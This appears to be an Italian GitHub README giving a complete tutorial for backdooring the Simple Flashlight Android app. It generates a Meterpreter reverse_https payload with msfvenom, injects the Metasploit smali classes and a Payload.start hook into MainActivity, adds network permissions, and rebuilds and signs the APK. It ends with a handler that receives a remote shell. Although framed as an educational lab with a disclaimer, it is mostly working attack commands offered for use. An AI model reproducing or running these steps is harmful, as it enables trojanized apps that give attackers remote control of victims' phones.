



# Android Malware Injection - APK Backdooring

### Manual Smali Injection & Meterpreter Integration

Questo progetto contiene la documentazione dettagliata per iniettare un payload Metasploit all'interno di un'applicazione Android legittima (Simple Flashlight). L'obiettivo è comprendere i meccanismi di decompilazione, modifica del codice Smali e ricompilazione di un APK per scopi educativi e di sicurezza difensiva.

---

## Prerequisiti e Setup

### Ambiente di test
Il laboratorio è configurato in una rete locale controllata per garantire l'interoperabilità tra i dispositivi:
- Attacker Machine: Kali Linux in modalità Network Bridge. L'uso del bridge permette alla VM di ottenere un IP locale (es. `192.168.1.37`) raggiungibile direttamente dal target.
- Target Device: Emulatore Android Studio (es. `Medium Phone, Android 12.0 "S"`) collegato alla medesima sottorete dell'attaccante.
- Toolchain: Metasploit Framework: Generazione del payload e gestione della sessione remota.
	- Apktool: Decompilazione e ricompilazione dei file APK.
	- Zipalign & Apksigner: Ottimizzazione e firma crittografica del pacchetto finale.

### Installazione APKTool

Per manipolare i file APK, utilizziamo Apktool.

```bash
# Scarica il jar
wget https://github.com/iBotPeaches/Apktool/releases/download/v2.9.3/apktool_2.9.3.jar

# Configura l'ambiente
mv apktool_2.9.3.jar apktool.jar
chmod +x apktool.jar
sudo mv apktool.jar /usr/local/bin/apktool.jar

# Crea un alias per semplicità (ZSH)
echo 'alias apktool="java -jar /usr/local/bin/apktool.jar"' >> ~/.zshrc
source ~/.zshrc
```

### Target Application

Utilizzeremo Simple Flashlight 5.5.1.

https://www.apkmirror.com/apk/simple-mobile-tool/simple-flashlight-2/simple-flashlight-2-5-5-1-release/simple-flashlight-led-lamp-5-5-1-android-apk-download/

Una volta scaricato l'APK, rinominiamolo per comodità: `flashlight_5.5.1-49.apk`

---

## Fase 1: Generazione Payload e Decompilazione

Generiamo il payload malevolo e decompiliamo entrambi i file per estrarne le classi.

```bash
# Generazione payload con MSFVenom
msfvenom -p android/meterpreter/reverse_https LHOST=192.168.1.37 LPORT=6060 -o payload.apk

# Decompilazione APK
apktool d payload.apk -o payload_folder
apktool d flashlight_5.5.1-49.apk -o flash_folder
```

---

## Fase 2: Smali Injection

### Migrazione dei file Smali

Dobbiamo copiare le classi di Metasploit all'interno della struttura della nostra app target.

```bash
cp -r payload_folder/smali/com/metasploit flash_folder/smali/com/
```

### Hooking del codice (MainActivity)

Dobbiamo istruire l'app ad avviare il payload all'avvio. Modifica il file:
`flash_folder/smali/com/simplemobiletools/flashlight/activities/MainActivity.smali`

Cerca il metodo `.method protected onCreate(Landroid/os/Bundle;)V` e inserisci l'invocazione subito dopo `invoke-super`:

```bash
# Riga 989 circa
invoke-super {p0, p1}, La2/l;->onCreate(Landroid/os/Bundle;)V

# Inserimento Payload Hook:
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

### Modifica del Manifest

Aggiungi i permessi necessari per la connessione remota nel file `AndroidManifest.xml`:

```xml
<uses-permission android:name="android.permission.INTERNET"/>
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
<uses-permission android:name="android.permission.WAKE_LOCK"/>
```



Consiglio l'uso di: https://www.freeformatter.com/xml-formatter.html

---

## Fase 3: Build & Signing

L'APK deve essere ricompilato, allineato e firmato digitalmente per essere installato su Android.

```bash
# Ricompilazione
apktool b flash_folder -o flash_unsigned.apk

# Ottimizzazione (Zipalign)
zipalign -v 4 flash_unsigned.apk flash_aligned.apk

# Generazione Keystore (Password suggerita: password123)
keytool -genkey -v -keystore my-release-key.jks -keyalg RSA -keysize 2048 -validity 10000 -alias my-alias

password123
What is your first and last name?
  [Unknown]:  *
What is the name of your organizational unit?
  [Unknown]:  *
What is the name of your organization?
  [Unknown]:  *
What is the name of your City or Locality?
  [Unknown]:  *
What is the name of your State or Province?
  [Unknown]:  *
What is the two-letter country code for this unit?
  [Unknown]:  *
Is CN=*, OU=*, O=*, L=*, ST=*, C=* correct?
  [no]:  yes

# Firma finale
apksigner sign --ks my-release-key.jks --out flash_finale.apk flash_aligned.apk

password123
```

---

## Fase 4: Post-Exploitation

Configura il listener su Metasploit per ricevere la connessione dalla vittima:

```bash
msfconsole -q
use multi/handler
set payload android/meterpreter/reverse_https
set LHOST 192.168.1.37
set LPORT 6060
exploit
```



Una volta avviata l'app sul dispositivo target, avrai accesso alla shell Meterpreter:

```bash
meterpreter > sysinfo
Computer        : localhost
OS              : Android 12...
```



---

### Disclaimer

Questo materiale è fornito esclusivamente a scopo didattico. L'accesso non autorizzato a sistemi informatici è un reato. Utilizza queste tecniche solo in ambienti controllati e con il consenso esplicito delle parti coinvolte.